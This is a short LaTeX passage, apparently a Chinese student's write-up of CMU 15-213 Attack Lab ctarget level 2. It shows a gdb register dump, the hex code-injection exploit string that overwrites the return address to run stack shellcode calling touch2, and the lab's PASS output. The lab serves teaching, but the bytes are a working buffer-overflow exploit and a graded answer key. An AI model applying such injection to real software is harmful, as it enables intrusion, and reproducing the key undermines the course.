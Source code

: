 \documentclass[12pt, a4paper, oneside]{ctexart}
\begin{document}
\begin{itemize}
\begin{lstlisting}
Breakpoint 2, getbuf () at buf.c:14
\end{lstlisting}
    查看寄存器信息，尤其是 rsp 的信息
\begin{lstlisting}
(gdb) i register
rax            0x0      0
rbx            0x55586000       1431855104
rcx            0x0      0
rdx            0x7ffff7dcf8c0   140737351841984
rsi            0xc      12
rdi            0x606260 6316640
rbp            0x55685fe8       0x55685fe8
rsp            0x5561dc78       0x5561dc78
r8             0x7ffff7feb540   140737354052928    
\end{lstlisting}
    rsp 的值为 0x5561dc78
    \item 因此答案如下（存入ctargetl2.txt）：\\
    48 c7 c7 fa 97 b9 59 68 ec 17 \\
    40 c3 00 00 00 00 00 00 00 00 \\
    00 00 00 00 00 00 00 00 00 00 \\
    00 00 00 00 00 00 00 00 00 00 \\
    78 dc 61 55 00 00 00 00
    \item 用 hex2raw 转化一下作为输入，成功跳转
\begin{lstlisting}
./hex2raw < ctarget_l2.txt > ctarget.l2
./ctarget -qi ctarget.l2    
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
\end{lstlisting}
\end{itemize}
\end{document}
